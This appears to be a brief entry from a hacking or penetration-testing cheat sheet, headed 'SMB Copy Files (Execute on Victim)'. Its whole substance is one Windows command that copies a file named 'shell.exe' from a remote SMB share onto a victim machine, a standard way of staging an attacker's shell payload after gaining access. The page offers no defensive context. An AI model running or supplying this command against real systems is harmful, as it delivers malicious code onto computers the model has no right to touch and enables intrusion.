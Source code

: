 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

# Related


Tags:

    #assorted
